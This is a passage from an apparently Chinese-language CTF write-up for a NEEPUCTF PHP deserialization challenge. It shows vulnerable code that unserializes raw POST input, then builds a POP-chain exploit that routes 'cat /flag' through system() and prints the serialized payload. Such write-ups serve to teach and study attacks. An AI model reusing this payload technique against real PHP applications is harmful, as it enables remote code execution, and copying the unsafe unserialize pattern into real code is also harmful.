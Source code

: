 ```php
class four{
    public function __destruct()
    {
        if ($this->neepu->neepuctf()){
            $this->fin->NEEPUCTF1($this->rce,$this->rce1);
        }

    }
    public function __wakeup(){
        $this->key=false;
    }
}
class five{
    public $finish;
    private $name;

    public function __get($name)
    {
        return $this->$name=$this->finish[$name];
    }
}

$a=$_POST["neepu"];
if (isset($a)){
    unserialize($a);
}
```

仔细分析一下，其实three、five是没有使用到的。

> 在php中，如果一个类没有声明成员变量，我们是可以给一个不存在的成员变量赋值的

![image-20230522112056442](https://raw.githubusercontent.com/leekosss/photoBed/master/202305221120486.png)



这一题就是这个情况，我们直接构造：

```php
<?php
$f = new four();
$f->rce = "cat /flag";
$f->rce1 = "";
$a = new one();
$a->finish->finish = true;
$f->neepu = $a;
$b = new one();
$b->key=true;
$b->finish->finish=true;
$b->now['NEEPUCTF1'] = "system";
$f->fin = $b;
echo serialize($f);


O:4:"four":4:{s:3:"rce";s:9:"cat /flag";s:4:"rce1";s:0:"";s:5:"neepu";O:3:"one":1:{s:6:"finish";O:8:"stdClass":1:{s:6:"finish";b:1;}}s:3:"fin";O:3:"one":3:{s:3:"key";b:1;s:6:"finish";O:8:"stdClass":1:{s:6:"finish";b:1;}s:3:"now";a:1:{s:9:"NEEPUCTF1";s:6:"system";}}}
```

